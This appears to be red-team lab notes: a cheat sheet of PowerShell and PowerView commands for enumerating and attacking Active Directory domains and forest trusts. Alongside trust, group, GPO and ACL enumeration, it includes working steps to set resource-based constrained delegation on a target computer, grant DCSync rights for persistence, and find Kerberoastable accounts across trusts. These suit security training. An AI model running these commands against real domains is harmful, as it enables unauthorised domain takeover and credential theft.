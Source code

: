 - Set RBCD for a domain machine account that we own to the target computer that we want to compromise and we have `GenericWrite` access to.
```powershell
$comp = 'student1$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comp -Verbose
```
- Add Replication permissions to a Domain User as a persistence method
`Set-ADACL -DistinguishedName 'DC=us,DC=techcorp,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose`
- Find the machine where Azure AD Connect is installed.
`Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl`
- Discover Inter-Forest/Inter-Domain Kerberoatable accounts.
`Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}`
- Find Domain Groups with groups with `SID>1000` in another Domain (useful to bypass partial SIDFiltering)
`Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local`
- Find FSPs in another Domain
`Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local`
- Find out which group a FSP is a member of on another Domain
`Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}`

#### AD Enumeration - PowerView
- Import PowerView
`Import-Module C:\AD\Tools\PowerView.ps1`
- List only the external trusts
`Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}`
- Find Trusts of another Forest
`Get-ForestTrust -Forest eu.local`
- Find Trusts of another Domain
`Get-DomainTrust -Domain eu.local`
- Find Foreign Group Members in another domain (members of Domain Groups in the target domain that are not Domain Accounts in the target domain)
`Find-ForeignGroup –Verbose -Domain eu.local`
- Resolve Object SID of an FSP in another Domain
`Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-4101'}`
- Enumerate Restricted Groups from GPO
`Get-DomainGPOLocalGroup`
- Members of Domain Group
`Get-DomainGroupMember -Identity machineadmins`
- List all the OUs
`Get-DomainOU`
- List all the computers in an OU
`(Get-DomainOU -Identity Students).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name`
- List all the GPOs
`Get-DomainGPO`
- Find the GPOs applied at an OU
`Get-DomainGPO -Identity '{FCE16496-C744-4E46-AC89-2D01D76EAD68}'`
- Enumerate ACLs of a Domain Group (what permissions members of this domain group HAVE OVER OTHER SECURITY PRINCIPALS)
`Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose`
- Check for modify rights/permissions that a Domain User HAS OVER OTHER SECURITY PRINCIPALS
`Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentuserx"}`
- Check for modify rights/permissions that a Domain Group HAS OVER OTHER SECURITY PRINCIPALS
`Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}`
- Check for modify rights/permissions that a Domain User HAS OVER OTHER SECURITY PRINCIPALS in another Domain
`Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local`